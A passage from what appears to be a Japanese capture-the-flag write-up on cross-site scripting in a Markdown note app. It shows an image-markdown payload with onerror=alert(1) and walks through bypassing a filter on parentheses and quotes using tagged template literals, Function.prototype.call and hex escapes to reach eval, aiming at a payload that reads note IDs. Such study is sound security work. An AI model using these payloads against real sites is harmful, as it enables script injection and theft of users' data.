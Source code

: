 ただし、`()`を利用すると、表示が崩れてしまう。

整形前
```
![[]()]( src=X onerror=alert(1) )
```
```
<img alt="<a href=" src=X onerror=alert(1">" src=""></img></a> )
```

整形後
<div class="code-block-container"><pre class="language-html"><code class="language-html code-line" data-line="398"><span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>img</span> <span class="token attr-name">alt</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span><span class="token punctuation">"</span>&lt;a href=<span class="token punctuation">"</span></span> <span class="token attr-name">src</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span>X</span> <span class="token attr-name">onerror</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span>alert(1"</span><span class="token punctuation">&gt;</span></span>" src=""&gt;&lt;/img&gt;&lt;/a&gt; )
</code></pre></div>

したがって、`()`使用せずにXSSでホーム画面のノートのIDを取得するペイロードを作成したい。

関数は[タグ付きテンプレート](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Template_literals#%E3%82%BF%E3%82%B0%E4%BB%98%E3%81%8D%E3%83%86%E3%83%B3%E3%83%97%E3%83%AC%E3%83%BC%E3%83%88)を利用して呼び出すことができる。たとえば、次のようなコードを試してみる。

```javascript
function test(...args) {
    console.log(args)
}

test`foo ${3} bar ${"bizbaz"}`
```
結果
```javascript
[ [ 'foo ', ' bar' ], 3, "bizbaz" ]
```

文字列の部分が第1引数に含まれており、`${}`で指定した値が第2引数以降に含まれていることがわかる。

これに、[Function.prototype.call](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Function/call)を組み合わせると、`()`を使わずに好きな引数を入れることができる。この関数を使うと、第1引数が別の用途で使用されるので、引数を一つずつ後ろにずらすことができる。

```javascript
function test(...args) {
    console.log(args)
}

test.call`${3}${"foobar"}`
```
結果
```javascript
[ 3, 'foobar' ]
```

これを利用して、`()"'`のいずれも使用せずに`eval`関数を利用できる。`eval`の引数にも`()"'`を利用できないが、[`\x`を利用した16進数のエスケープシーケンス](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Lexical_grammar#%E3%82%A8%E3%82%B9%E3%82%B1%E3%83%BC%E3%83%97%E3%82%B7%E3%83%BC%E3%82%B1%E3%83%B3%E3%82%B9)を利用することで回避できる。（例: `()` → `\x28\x29`）
